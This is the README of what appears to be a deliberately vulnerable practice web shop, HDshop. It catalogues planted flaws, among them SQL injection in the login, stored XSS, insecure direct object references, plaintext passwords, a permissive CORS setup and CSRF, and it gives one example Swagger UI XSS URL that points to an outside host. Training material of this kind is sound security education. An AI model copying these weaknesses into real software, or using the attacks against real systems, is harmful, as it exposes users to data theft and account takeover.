


# HDshop

## Tech ##
- HDshop at port 3000
  - Express.js (node.js) backend
  - AngularJS frontend
  - PostgreSQL
  - Swagger UI accessible at /api-docs (does not include the file upload API endpoint)
- Log monitor application at port 3050 (you can filter for requests etc). Includes 2 API endpoints:
  - http://localhost:3050/api/logs
  - http://localhost:3050/api/health
- Docker-compose included to easily start and stop everything

## Includes the following vulnerabilities:

- 🚫 **No HTTPS**
- 🔎 **Username Enumeration** in login and registration functions
- 💣 **Error-Based SQL Injection**  
  - Affects: `login` > `username` field
- 🍪 **Session Cookie Missing Flags**
  - Missing `HttpOnly` and `Secure` and `SameSite` attributes
- 🛡️ **Missing all Security Headers**
  - No Content Security Policy
  - No HTTP Strict Transport Security (HSTS)
  - No Referrer header
  - No Permission Policy
  - No X-Frame-Options
  - No X-Content-Type-Options
  - X-Powered-By header discloses tech
- 🦠 **XSS - Stored Cross-Site Scritping**
  - Vector: `username` via create user or update user settings
- 🧱 **Broken Access Control**
  - Any user can:
    - `GET /api/user/<ID>` > Retrieve data from other users
    - `GET /api/users` > Get data from all users
    - `GET /api/user/<ID>/orders` > Get orders from other users
    - `POST /api/user/<ID>/image` > Add profile images to other users (containing XSS)
- 🔐 **Sensitive Data Exposure**
  - Passwords and API keys present in `config.json`
- 🧠 **Logic Bugs**
  - No server-side validation on product pricing and total price
- 🧯 **Verbose errors in production**
- 🛠️ **Change user settings without requiring current password**
- 📂 **Passwords stored in plaintext**
- 🧾 **Default credentials > Postgres and webapp**
- 📤 **Weak (client-side only) upload restrictions > SVG upload with XSS etc.**
- 🆔 **Simple Identifiers (no UUIDv4)**
- 🛡️ **Vulnerable CORS configuration on APIs**
  - Access-Control-Allow-Crendentials (ACAC) on true
  - Origin can be set by user
- ⚠️**Outdated Swagger-UI (3.25.0) leads to XSS**
  - Example: http://localhost:3000/api-docs/?configUrl=https://xss.smarpo.com/test.json
- 🛠️**CSRF (Cross-Site Request Forgery) on any request**
  - There are no anti-CSRF tokens and the session cookie has SameSite none
---

## TODO:

- **Reflected XSS in   parameter**
- **API endpoint for profile image retrieval** > **LFI**
- **CSTI**
- **Open redirect**
- **SSRF**
---
